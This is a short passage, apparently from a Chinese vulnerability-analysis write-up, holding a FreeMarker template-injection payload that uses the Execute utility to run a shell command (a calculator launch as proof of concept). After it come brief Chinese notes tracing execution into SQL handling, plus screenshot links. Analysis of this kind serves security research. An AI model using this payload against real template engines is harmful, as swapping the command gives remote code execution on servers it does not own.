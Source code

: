 ```bash
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("open -a Calculator.app")}
```

[![](assets/1704273687-9ea8a65ae5c445fbf363d119d5b4aad8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153445-914be566-aa0a-1.png)

随着继续跟进，不用看 type，因为不影响。直接看 sql

[![](assets/1704273687-6efefc3a01c339c6b1ebfa85a46584ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153500-99c2298a-aa0a-1.png)

这里走入的是第二个 sql 的，因为 paramArray 是 null

[![](assets/1704273687-5ad35be7d8c92cdc18bc592d619a69a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153519-a506fee2-aa0a-1.png)
